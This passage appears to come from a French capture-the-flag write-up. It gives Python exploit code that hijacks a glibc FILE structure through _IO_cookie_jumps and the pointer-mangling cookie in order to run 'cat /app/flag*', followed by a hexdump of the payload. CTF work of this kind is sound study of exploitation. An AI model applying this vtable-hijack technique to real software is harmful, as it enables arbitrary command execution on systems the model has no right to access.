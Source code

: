```python
# R39 (io_functions.read) = R5
A.op("xor", 39, 5, reg=3) # R3 ^ cookie

# Setup struct _IO_cookie_file:
# BEFORE: _IO_file_jumps      (base+0x3e82a0)
# AFTER:  _IO_cookie_jumps+88 (base+0x3e7938)
# R37 (vtable) = R7-0x8220-2408
A.op("sub", 37, 7, reg=4)
# R38 (cookie) = memory_base + SIZE = R6 + SIZE + 8
DATA_OFFSET = 0xa4
A.op("add", 38, 6, imm=DATA_OFFSET+8)

# Setup mode and offset
# R15 += xxx (write ptr > write base)
A.op("add", 15, 4, reg=15)
# illegal instruction (JMP R5 = cookie > memsize)
A.jmpreg(2)

# Get bytecode
payload = A.buf
data = b"cat /app/flag*"
codesz = len(payload)
padsz = DATA_OFFSET - len(payload)
print(f"Payload size: {codesz} code {padsz} pad {len(data)} data")
assert codesz <= DATA_OFFSET
assert codesz + padsz == DATA_OFFSET

payload += padsz*b"\0" + data
print(hexdump(payload), file=sys.stderr)
```

Et la payload:
```
00000000  09 00 bb 00  0f 65 20 82  00 00 00 00  0f 65 31 ab  │····│·e ·│····│·e1·│
00000010  3c 00 00 00  0f 65 a0 d1  39 00 00 00  0f 65 88 8b  │<···│·e··│9···│·e··│
00000020  00 00 00 00  0f 65 58 11  00 00 00 00  50 56 05 04  │····│·eX·│····│PV··│
00000030  03 02 01 00  00 bb 3d 00  00 00 00 00  06 1b ad 50  │····│··=·│····│···P│
00000040  07 25 ad 10  08 06 5b 70  09 00 bb 00  10 56 05 00  │·%··│··[p│····│·V··│
00000050  00 00 00 00  00 bb 5d 00  00 00 00 00  08 80 5b 5f  │····│··]·│····│··[_│
00000060  08 06 5b 80  09 00 bb 00  10 56 05 00  00 00 00 00  │··[·│····│·V··│····│
00000070  00 bb 79 00  00 00 00 00  01 17 ad 00  02 02 5b 10  │··y·│····│····│··[·│
00000080  03 03 5b 10  02 11 37 2f  03 11 37 3f  05 02 10 50  │··[·│··7/│··7?│···P│
00000090  27 03 10 50  25 04 5b 70  26 ac ad 6f  0f 0f ad 40  │'··P│%·[p│&··o│···@│
000000a0  02 00 bb 00  63 61 74 20  2f 61 70 70  2f 66 6c 61  │····│cat │/app│/fla│
000000b0  67 2a                                               │g*│
```
